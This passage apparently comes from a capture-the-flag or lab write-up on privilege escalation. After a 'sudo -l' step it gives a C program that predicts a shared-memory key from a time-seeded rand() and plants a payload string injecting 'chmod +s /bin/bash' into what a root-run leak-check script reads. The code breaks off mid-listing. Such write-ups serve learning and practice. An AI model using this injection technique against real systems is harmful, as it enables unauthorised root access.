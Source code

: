 ## d. sudo -l
![](Pasted%20image%2020250228143034.png)
check-leak.sh
![](Pasted%20image%2020250228143453.png)

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <time.h>
#include <errno.h>
#include <string.h>

#define SHM_SIZE 0x400   // 1024 bytes
#define SHM_MODE 0x3B6   // Permissions: 0666 in octal

int main(void) {
    // Seed the random number generator with the current time.
    time_t current_time = time(NULL);
    srand((unsigned int)current_time);

    // Generate a random number and apply modulo 0xfffff to generate the key.
    int random_value = rand();
    key_t key = random_value % 0xfffff;

    // Print the generated key in hexadecimal.
    printf("Generated key: 0x%X\n", key);

    // Create (or get) the shared memory segment with the generated key.
    // IPC_CREAT flag is used to create the segment if it does not exist.
    int shmid = shmget(key, SHM_SIZE, IPC_CREAT | SHM_MODE);
    if (shmid == -1) {
        perror("shmget");
        exit(EXIT_FAILURE);
    }

    // Attach to the shared memory segment.
    char *shmaddr = (char *)shmat(shmid, NULL, 0);
    if (shmaddr == (char *)-1) {
        perror("shmat");
        exit(EXIT_FAILURE);
    }

    // Define the payload string to be written.
    const char *payload = "Leaked hash detected at Sat Feb 22 23:21:48 2025 > '; chmod +s /bin/bash;#";

```